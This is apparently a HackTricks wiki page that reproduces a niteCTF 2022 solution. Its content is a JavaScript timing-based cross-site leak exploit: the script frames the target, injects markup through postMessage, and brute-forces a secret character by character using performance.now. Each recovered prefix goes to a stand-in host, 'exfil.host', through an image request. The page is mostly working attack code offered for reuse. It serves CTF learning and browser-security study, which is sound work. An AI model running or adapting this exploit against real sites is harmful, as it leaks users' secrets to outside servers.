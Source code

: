 # performance.now example

{{#include ../../banners/hacktricks-training.md}}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
  let w = frame.contentWindow
  w.postMessage(
    { op: "preview", payload: '<img name="enable_experimental_features">' },
    "*"
  )
  await sleep(1)
  w.postMessage({ op: "search", payload: flag }, "*")
  let t1 = performance.now()
  await sleep(1)
  return performance.now() - t1 > 200
}

async function main() {
  let alpha =
    "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
  window.frame = document.createElement("iframe")
  frame.width = "100%"
  frame.height = "700px"
  frame.src = "https://challenge.jsapi.tech/"
  document.body.appendChild(frame)
  await sleep(1000)

  let flag = "nite{"
  while (1) {
    for (let c of alpha) {
      let result = await Promise.race([
        check(flag + c),
        new Promise((res) =>
          setTimeout(() => {
            res(true)
          }, 300)
        ),
      ])
      console.log(flag + c, result)
      if (result) {
        flag += c
        break
      }
    }
    new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
  }
}

document.addEventListener("DOMContentLoaded", main)
```

{{#include ../../banners/hacktricks-training.md}}


